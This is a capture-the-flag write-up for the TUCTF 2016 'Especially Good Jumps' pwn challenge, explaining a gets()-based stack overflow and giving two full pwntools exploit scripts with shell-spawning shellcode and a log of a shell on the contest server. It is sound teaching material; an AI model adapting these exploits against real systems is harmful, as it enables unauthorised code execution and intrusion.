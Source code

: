 ```yaml
---
title: 'TUCTF 2016: Especially Good Jumps (pwn 75)'
date: 2016-05-16 00:00:00 Z
categories:
- writeup
tags:
- cat/pwn
- tool/binjitsu
layout: post
author: f0rki
---
```


* **Category:** pwn
* **Points:** 75
* **Description:**

> Pop a shell.
>
> Binary is hosted at: 130.211.202.98:7575
>
> EDIT:
>
> ASLR is enabled on remote server.

## Write-up

We have classic stack-based buffer overflow vulnerability at hand:

```
│           0x0804853f      8d442410       lea eax, [esp + arg_10h]    ; 0x10
│           0x08048543      890424         mov dword [esp], eax
│           0x08048546      e885feffff     call sym.imp.gets
```

`gets` does not bounds-checking whatsoever. Let's check protection mechanisms.

```
checksec 23e4f31a5a8801a554e1066e26eb34745786f4c4
[*] '/media/ctf/tuctf2016/Especially Good Jumps (pwn 75)/23e4f31a5a8801a554e1066e26eb34745786f4c4'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE
```

Hooray. Nothing there. This should be easy. The description hinted that we need
to bypass ASLR. The binary also writes to a global variable called `meow`.
Interestingly when you compile a program with `-zexecstack`, it will not only
make the stack executable but also disable execute prevention on other
segments, such as `.bss`. So we could write something like `call esp` into
`meow` and return to it.

```
[0x08048420]> iS~bss
idx=25 vaddr=0x0804a040 paddr=0x00001030 sz=12 vsz=12 perm=--rw- name=.bss
```

The OS will map a whole page for `.bss` even though it's only 12 bytes. So we
can also write all of our shellcode into `.bss`. We'll use a minimal ROP chain
to achieve this.

1. call `gets(&meow)`
2. return to `&meow`

We'll use a simple shell spawning shellcode.


```python
#!/usr/bin/env python

from pwn import *  # NOQA

vulnbinp = "./23e4f31a5a8801a554e1066e26eb34745786f4c4"
velf = ELF(vulnbinp)

# determine how much we need to overwrite until retaddr
# pl = cyclic(201)
# cyclic -c i386 -l 0x6161616c
l = 44

sc = shellcraft.linux.sh()
sca = asm(sc)
log.info("Using shellcode\n" + sc)
log.info(hexdump(sca))

chain = ROP(velf)
chain.call('gets', [velf.symbols['meow']])  # write shellcode
chain.call(velf.symbols['meow'])  # return to shellcode

log.info("Using rop chain\n" + chain.dump())

pl = "A" * l
pl += str(chain)
# pl += "BBBB"
pl += "\n"
pl += str(0x42424242)

vp = process(vulnbinp)
# gdb.attach(vp)
# vp = remote("130.211.202.98", 7575)

vp.send(pl)

vp.sendline(sca)

vp.sendline()
vp.readline()

with context.local(log_level='debug'):
    vp.sendline("id")
    vp.sendline("pwd; ls -al;")
    vp.sendline("cat flag.txt")
    vp.clean_and_log()

vp.interactive()
vp.close()
```


```
[*] '/ctf/tuctf2016/Especially Good Jumps (pwn 75)/23e4f31a5a8801a554e1066e26eb34745786f4c4'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE
[*] Using shellcode
        /* push '/bin///sh\x00' */
        push 0x68
        push 0x732f2f2f
        push 0x6e69622f

        /* call execve('esp', 0, 0) */
        push (SYS_execve) /* 0xb */
        pop eax
        mov ebx, esp
        xor ecx, ecx
        cdq /* edx=0 */
        int 0x80
[*] 00000000  6a 68 68 2f  2f 2f 73 68  2f 62 69 6e  6a 0b 58 89  │jhh/│//sh│/bin│j·X·│
    00000010  e3 31 c9 99  cd 80                                  │·1··│··│
    00000016
[*] Loaded cached gadgets for './23e4f31a5a8801a554e1066e26eb34745786f4c4'
[*] Using rop chain
    0x0000:        0x80483d0 gets(134520904)
    0x0004:        0x804839d <adjust: pop ebx; ret>
    0x0008:        0x804a048 meow
    0x000c:        0x804a048 0x804a048()
    0x0010:           'eaaa' <pad>
[+] Opening connection to 130.211.202.98 on port 7575: Done
[DEBUG] Sent 0x3 bytes:
    'id\n'
[DEBUG] Sent 0xd bytes:
    'pwd; ls -al;\n'
[DEBUG] Sent 0xd bytes:
    'cat flag.txt\n'
[*] Switching to interactive mode
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAЃ\x0\x9d\x83\x0H\xa0\x0��\x9d\x83\x0H\xa0\x0H\xa0\x0haaa, 1111638594 is an even number!
uid=1002(pwn75) gid=1002(pwn75) groups=1002(pwn75)
/home/pwn75
total 32
drwxr-x--- 2 root pwn75 4096 May 11 19:12 .
drwxr-xr-x 8 root root  4096 May 12 17:48 ..
-rw-r--r-- 1 root pwn75  220 May 11 18:54 .bash_logout
-rw-r--r-- 1 root pwn75 3637 May 11 18:54 .bashrc
-rw-r--r-- 1 root pwn75  675 May 11 18:54 .profile
-rwxr-xr-x 1 root pwn75 7548 May 11 18:48 easy
-r--r----- 1 root pwn75   44 May 11 18:52 flag.txt
TUCTF{th0se_were_s0me_ESPecially_good_JMPs}
$

```

Done :)


For completeness reasons, here is the variant where we write `jmp esp` into
`meow` and return there. Well this exploit is kind of simpler.

```python
#!/usr/bin/env python

from pwn import *  # NOQA

vulnbinp = "./23e4f31a5a8801a554e1066e26eb34745786f4c4"
velf = ELF(vulnbinp)

# pl = cyclic(201)
# cyclic -c i386 -l 0x6161616c
l = 44

sc = shellcraft.linux.sh()
sca = asm(sc)
log.info("Using shellcode\n" + sc)

meow = u16(asm('jmp esp'))

pl = "A" * l  # fill stack
pl += p32(velf.symbols['meow'])  # return to meow
pl += asm(shellcraft.nop()) * 8  # some nops
pl += sca  # actual shellcode
# pl += "BBBB"
pl += "\n"
pl += meow  # write 'jmp esp' into meow

log.info("Sending payload:\n" + hexdump(pl))

vp = process(vulnbinp)
gdb.attach(vp)
# vp = remote("130.211.202.98", 7575)

vp.send(pl)

vp.sendline()
vp.readline()

with context.local(log_level='debug'):
    vp.sendline("id")
    vp.sendline("pwd; ls -al;")
    vp.sendline("cat flag.txt")
    vp.clean_and_log()

vp.interactive()
vp.close()
```
